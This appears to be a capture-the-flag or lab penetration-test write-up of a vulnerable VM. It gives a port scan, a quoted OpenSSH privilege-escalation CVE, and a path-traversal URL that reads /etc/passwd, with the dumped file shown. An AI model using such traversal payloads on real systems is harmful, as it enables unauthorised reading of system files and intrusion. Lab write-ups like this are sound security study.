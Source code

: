 ***
### Services and Vulns

```
host            port   proto  name   state     info
----            ----   -----  ----   -----     ----
192.168.86.140  22     tcp    ssh    open      OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 Ubuntu Linux; protocol 2.0
192.168.86.140  68     udp    dhcpc  unknown
192.168.86.140  80     tcp    http   open      Apache httpd 2.4.18 (Ubuntu)
192.168.86.140  6667   tcp    irc    filtered
192.168.86.140  60080  tcp    http   open      Apache httpd 2.4.18 (Ubuntu)
```

OpenSSH 7.2p2 has an interesting CVE — “allows local users to gain privs by triggering a crafted environment for `/bin/login`  
<https://www.cvedetails.com/cve/CVE-2015-8325/>  
> The do_setup_env function in session.c in sshd in OpenSSH through 7.2p2, when the UseLogin feature is enabled and PAM is configured to read .pam_environment files in user home directories, allows local users to gain privileges by triggering a crafted environment for the /bin/login program, as demonstrated by an LD_PRELOAD environment variable.  
> Publish Date : 2016-04-30 Last Update Date : 2016-11-30

***
### Web Vectors

LFI at 1st level of difficulty
http://192.168.86.142/?page=../../../../../etc/passwd

```
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin 
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
syslog:x:104:108::/home/syslog:/bin/false 
_apt:x:105:65534::/nonexistent:/bin/false 
uuidd:x:107:111::/run/uuidd:/bin/false 
walfin:x:1000:1000:walfin,,,:/home/walfin:/bin/bash 
sshd:x:108:65534::/var/run/sshd:/usr/sbin/nologin 
mysql:x:109:117:MySQL Server,,,:/nonexistent:/bin/false 
steven?:x:1001:1001::/home/steven?:/bin/bash 
ircd:x:1003:1003:,,,:/home/ircd:/bin/bash
```
